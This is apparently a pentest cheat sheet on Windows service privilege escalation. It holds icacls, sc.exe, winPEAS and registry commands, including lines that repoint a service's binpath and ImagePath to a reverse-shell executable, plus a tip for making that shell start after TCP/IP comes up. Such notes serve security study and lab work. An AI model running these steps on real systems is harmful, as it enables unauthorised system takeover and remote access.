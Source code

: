| **Mask** | **Permission**          |
| -------- | ----------------------- |
| F        | Full access             |
| M        | Modify access           |
| RX       | Read and execute access |
| R        | Read-only access        |
| W        | Write-only access       |
```PowerShell
icacls "C:\xampp\apache\bin\httpd.exe" # basic icacls

# Check service auto-start on reboot
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.StartMode -like 'Auto'}

# Get service event logs
Get-WinEvent -LogName System -MaxEvents 50 | Where-Object { $_.ProviderName -eq "Service Control Manager" -and $_.Message -match "BackupMonitor" }

# Restart service
Restart-Service -Name BackupMonitor -Force

winPEASany.exe quiet servicesinfo # winPEAS service misconfigurations scan
# Check what DLLs a running service is currently using
(Get-Process notepad).Modules | Select-Object ModuleName, FileName
sc.exe qc <name> # Query the configuration of a service (check for DLL hijacking opportunity)
sc.exe query <name> # Query the current status of a service
Get-Service -Name <name> | Format-List * # Check service status
sc.exe config <name> <option>= <value> # Modify a configuration option of a service
sc.exe config BackupMonitor depend= Tcpip # Make Tcpip stack a dependency
# EXAMPLE (changing binpath):
sc.exe config daclsvc binpath="\"C:\PrivEsc\reverse.exe\""

sc.exe start/stop <name> # Start/stop a service
net start/stop <name> # Start/stop a service

# Get ID then attempt to stop the service
Get-WmiObject Win32_Service | Where-Object { $_.Name -eq "EnterpriseService" } | Select-Object Name, ProcessId # Get ID
Stop-Process -Id <ProcessID> -Force # Stop the service

Get-Acl HKLM:\System\CurrentControlSet\Services\regsvc | Format-List # Check registry ACL; if weak, use following command
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f # Overwrites ImagePath registry key to point to our RevShell executable

```

Consider adding `sc config BackupMonitor depend= Tcpip` so that the TCP/IP stack in Windows is a service dependency; i.e., that TCP/IP is up before trying to launch a reverse shell

---